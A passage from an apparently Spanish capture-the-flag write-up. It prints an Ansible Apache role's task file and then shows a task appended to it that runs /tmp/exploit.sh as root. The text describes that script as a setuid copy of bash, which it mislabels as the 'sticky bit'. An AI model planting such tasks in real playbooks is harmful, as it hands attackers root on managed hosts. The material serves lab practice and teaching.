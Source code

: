 ¡Aquí está el contenido, contiene todo lo necesario para ejecutar un `servidor web apache`!

```bash
[theodore@aratus ~]$ cat /opt/ansible/roles/geerlingguy.apache/tasks/configure-RedHat.yml
---
- name: Configure Apache.
  lineinfile:
    dest: "{{ apache_server_root }}/conf/{{ apache_daemon }}.conf"
    regexp: "{{ item.regexp }}"
    line: "{{ item.line }}"
    state: present
    mode: 0644
  with_items: "{{ apache_ports_configuration_items }}"
  notify: restart apache

- name: Check whether certificates defined in vhosts exist.
  stat: path={{ item.certificate_file }}
  register: apache_ssl_certificates
  with_items: "{{ apache_vhosts_ssl }}"

- name: Add apache vhosts configuration.
  template:
    src: "{{ apache_vhosts_template }}"
    dest: "{{ apache_conf_path }}/{{ apache_vhosts_filename }}"
    owner: root
    group: root
    mode: 0644
  notify: restart apache
  when: apache_create_vhosts | bool

- name: Check if localhost cert exists (RHEL 8 and later).
  stat:
    path: /etc/pki/tls/certs/localhost.crt
  register: localhost_cert
  when: ansible_distribution_major_version | int >= 8

- name: Ensure httpd certs are installed (RHEL 8 and later).
  command: /usr/libexec/httpd-ssl-gencerts
  when:
    - ansible_distribution_major_version | int >= 8
    - not localhost_cert.stat.exists

```
Entonces, simplemente agregamos una tarea final dentro de ese archivo, ¡para que podamos ejecutar un exploit!

```bash
- name: exploiting you bruh
  command: /bin/sh /tmp/exploit.sh
  args:
   warn: false
```
Aquí está el exploit que creamos, un simple copiar y pegar para el binario `bash`, ¡pero usando el sticky bit! Básicamente, si alguien más ejecuta el archivo, lo ejecutará como el usuario/grupo que lo creó, en este caso, ¡el usuario `root`!
